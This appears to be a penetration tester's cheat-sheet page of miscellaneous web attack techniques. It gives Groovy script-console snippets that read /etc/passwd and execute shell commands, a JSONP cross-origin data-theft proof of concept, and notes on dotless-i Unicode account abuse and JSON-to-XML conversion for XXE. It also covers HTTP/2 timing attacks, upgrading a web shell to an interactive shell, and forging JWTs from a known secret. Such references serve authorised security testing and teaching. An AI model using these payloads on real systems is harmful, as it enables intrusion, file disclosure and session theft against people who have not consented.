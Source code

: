 # Other

### Groovy Script Console

#### File-Read

```text
new File("/etc/passwd").withReader('UTF-8') { reader ->
def line
    while ((line = reader.readLine()) != null) { 
        println "${line}"
    }
}
```

#### RCE

```text
def process = "ls -lah".execute()
println "${process.text}"
```

```text
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ls -lah'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "$sout"
```

### JsonP

Only useful if a jsonp endpoints requires authentication. A Victim at attacker.com will retrieve the data from victim.com and send its cookie along because of how jsonp works \(Reference: [https://www.sjoerdlangkemper.nl/2019/01/02/jsonp/](https://www.sjoerdlangkemper.nl/2019/01/02/jsonp/)\).

```javascript
<html>
<body>
<script>
function xct(a) {

alert(JSON.stringify(a));

}
</script>
<script src="targeturl?callback=xct"></script>
<body>
</html>
```

### Unicode Abuse

We can use some special characters like the dotless I to abuse "toUpperCase\(\)", registering for example an admin email address. Reference: [https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/](https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/)

### Json to XML

Change JSON Post requests to XML Format, sometimes this works and can be used for XXE, e.g. [https://twitter.com/11xuxx/status/1250764273623629826](https://twitter.com/11xuxx/status/1250764273623629826)

### HTTP/3 Clients

```text
docker run -it 'ymuski/curl-http3' bash
```

{% embed url="https://github.com/curl/curl/blob/master/docs/HTTP3.md" %}

### Interactive Shell from Web Shell

{% embed url="https://github.com/mxrch/webwrap" %}

### Timeless Timing Attacks against Remote Targets

* [https://www.youtube.com/watch?v=Oz0NtokfbqU](https://www.youtube.com/watch?v=Oz0NtokfbqU) 

The idea is to use HTTP2 to send multiple requests in one which allows us to measure the difference, by looking at which comes back first. Repeat this a lot to get some statistical relevance.

### Create JWT from Secret Key via PyJWT

```text
import jwt
data = {"data": {"username": "xct"}}
print(jwt.encode(data, "6cb9...", algorithm="HS256"))
```

